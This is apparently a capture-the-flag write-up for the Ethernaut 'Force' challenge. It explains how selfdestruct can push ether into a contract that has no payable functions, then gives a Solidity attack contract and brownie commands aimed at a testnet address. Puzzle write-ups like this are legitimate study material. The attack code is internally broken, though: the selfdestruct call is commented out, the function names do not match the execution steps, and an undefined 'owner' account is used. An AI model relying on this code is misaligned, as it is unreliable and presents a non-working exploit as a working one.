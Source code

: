 ## Exercise 7: Force

The vulnerable contract contains no code. The aim of the challenge is to force the contract to accept some ether. There are no payable functions in Force.sol that can accept ether through normal transfers. However, the EVM also has a `selfdestruct` opcode that takes an address as an argument. This address is the recipient for any ether held by a contract that is destroyed by calling `selfdestruct`. Therefore, by creating a contract, sending it some ether, then deliberately destroying it with the deployment address for `Force.sol` as the recipient, we can force the contract to accept ether.

### The vulnerable contract
```javascript
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

contract Force {/*

                   MEOW ?
         /\_/\   /
    ____/ o o \
  /~____  =ø= /
 (______)__m_m)

*/}
```

### The Hack

```javascript

pragma solidity ^0.6.0;

contract ForceHack{

    function receive() public payable returns (uint){
        // receive some ether and return the contract balance as a uint
        return address(this).balance;
    }

    function selfDestruct() public{

        // set address to the deployment addr for Force.sol
        address payable contract_address = 0x83867758a9A4D667c78fCE37b63483151114436D;
        //selfdestruct(contract_address);
    }


}
```

### Execution
NB Force.sol already has a deployment address provided via ethernaut "get instance"

```bash

>>> brownie console --network rinkeby    #start brownie session
>>> hacker = accounts.load('main')    # load account
>>> contract = Force.at('0x83867758a9A4D667c78fCE37b63483151114436D') # load vulnerable contract
>>> hack = ForceHack.deploy({'from': hacker})   # load hack contract
>>> hack.receive({'from':owner, 'value': 100000})   # send ether to hack contract
>>> hack.selfdestruct()    # self destruct hack contract with vulnerable contract as recipient
>>> web3.eth.getBalance(contract.address)   # check balance of vulnerable contract - should be >0

```

### Links

[Solidity by Example: selfdestruct](https://solidity-by-example.org/hacks/self-destruct/)
[StackExchange: why are selfdestructs useful?](https://ethereum.stackexchange.com/questions/315/why-are-selfdestructs-used-in-contract-programming/347)
